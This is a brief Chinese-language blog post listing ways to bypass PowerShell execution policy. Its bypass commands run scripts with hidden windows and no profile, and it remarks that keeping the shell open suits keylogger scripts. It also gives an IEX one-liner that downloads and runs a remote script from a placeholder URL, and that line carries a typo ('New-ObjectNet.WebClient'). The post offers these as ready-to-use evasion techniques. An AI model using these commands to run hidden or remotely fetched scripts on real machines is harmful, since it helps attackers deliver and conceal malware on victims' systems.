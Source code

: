# PowerShell执行策略的简单绕过

  
#### 执行策略
```bash
Get-ExecutionPolicy   #查看当前策略

# 四种
- Restricted        #脚本不能运行（默认）
- RemoteSigned      #本地创建的脚本可以运行，但从网上下载的脚本不能运行
- AllSigned         #仅当脚本由信任的发布者签名时才能运行
- Unrestricted      #允许所有的脚本运行

# 设置PowerShell执行策略
Set-ExecutionPolicy <策略名>
```
  
#### 绕过
1.
```
# 先设置当前用户的执行策略为Unrestricted，也算是去更改了当前的全局策略
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted 
# 再执行脚本
```

2.
```
# 或是下面这种，-Windowstyle hidden 可以让我们的执行无任何弹窗, -NoProfile不加载当前用户配置
powershell.exe -executionpolicy bypass -Windowstyle hidden -Noninteractive -nologo -NoProfile -File xxx.sp1

# Noexit  执行结束不退出shell(对键盘记录等脚本非常有用)
```

3.
```
# 绕过本地权限执行
PowerShell.exe -ExecutionPolicy Bypass -File xxx.sp11
```

4.
```
# 用IEX下载远程PS1脚本绕过
PowerShell.exe -ExecutionPolicy Bypass  -Windowstyle hidden -Noninteractive -NoProfile IEX(New-ObjectNet.WebClient).DownloadString("http://xxxxx.xxx.ps1");[Parameters]
```

5.更多执行策略绕过: 
```
https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy
```


---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/powershell%E6%89%A7%E8%A1%8C%E7%AD%96%E7%95%A5%E7%9A%84%E7%AE%80%E5%8D%95%E7%BB%95%E8%BF%87/  

